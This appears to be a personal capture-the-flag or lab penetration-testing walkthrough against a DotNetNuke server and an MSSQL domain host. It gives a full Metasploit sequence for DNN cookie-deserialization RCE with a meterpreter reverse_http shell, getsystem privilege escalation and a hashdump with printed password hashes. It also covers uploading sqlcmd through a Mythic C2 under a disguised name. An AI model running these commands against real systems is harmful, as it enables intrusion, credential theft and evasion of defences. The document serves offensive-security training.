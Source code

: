 Regain Access:
```

```

Nmap scan below. Looked like a promising first hit.
```
Nmap scan report for 10.10.110.10
Host is up (0.049s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT      STATE  SERVICE VERSION
80/tcp    open   http    Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
| http-robots.txt: 30 disallowed entries (15 shown)
| /admin/ /App_Browsers/ /App_Code/ /App_Data/ 
| /App_GlobalResources/ /bin/ /Components/ /Config/ /contest/ /controls/ 
|_/DesktopModules/ /Documentation/ /HttpModules/ /images/ /Install/
|_http-favicon: Unknown favicon MD5: 2DE6897008EB657D2EC770FE5B909439
|_http-title: Home
443/tcp   closed https
3391/tcp  closed savant
49443/tcp closed unknown
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```



Website is running DNN (dotnetnuke)
![[Pasted image 20250501120838.png]]

Potentially version 7.0
![[Pasted image 20250501121056.png]]

Registering a user tells us that the site admin has to verify and view our request.
![[Pasted image 20250501121310.png]]

Weak version of DNN, maybe google and look for an RCE?
No luck with a dnn cookie deserialization rce
![[Pasted image 20250501122524.png]]

It looks vulnerable, helpful blogpost?

https://pentest-tools.com/blog/exploit-dotnetnuke-cookie-deserialization

Need to change the payload to  

```bash
msfconsole -q
use windows/http/dnn_cookie_deserialization_rce
set lhost tun0
set rhosts 10.10.110.10
set payload payload/windows/meterpreter/reverse_http
# In meterpreter
getsystem
# Might need to repeat it a second time
getsystem
# Use privileged meterpreter to run privileged beacon
```
We should be aware of Firewalls. Reverse http is very good at getting around these.
We can use meterpreter getsystem to privesc, and then hashdump to get some hashes,


```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:4e63f2ecad6ac1c809564e26ea764999:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
```

We'll find the first flag in the DotNetNukedirectory

Checking the running processes, we see some SQL stuff running. We can use nmap, netexec, bloodhound to figure out the names of the servers.

Using netexec, we can check for anything in the domain running MSSQL
```bash
netexec mssql 10.9.20.13/24 -u '' -p ''
```
![[Pasted image 20250528223400.png]]

Through the binaries, it's sort of implied that we have permissions to this SQL server. 

We need to use sqlcmd
https://github.com/microsoft/go-sqlcmd/releases/tag/v1.8.2
```bash
wget https://github.com/microsoft/go-sqlcmd/releases/download/v1.8.2/sqlcmd-windows-amd64.zip
unzip sqlcmd-windows-amd64.zip
```

We can upload this using our Mythic C2.

```mythic
upload
```

And then run it. We're using the shell command in Mythic C2, and then passing everything after that as an arguement
```
shell C:\windows\tasks\sqlcmd.exe -S tcp:10.9.20.11,1433 -Q "select @@ version;"
```
It doesn't seem to like the name 'sqlcmd.exe', so we'll rename it.
![[Pasted image 20250528224341.png]]

```
shell C:\windows\tasks\update64.exe -S tcp:10.9.20.11,1433 -Q "select @@ version;"
```

That doesn't work.
```
shell C:\windows\tasks\update64.exe -S CYWEBDW -Q "EXECUTE('SELECT name FROM master.dbo.sysdatabases') AT[m3sqlw.m3c.local];"
```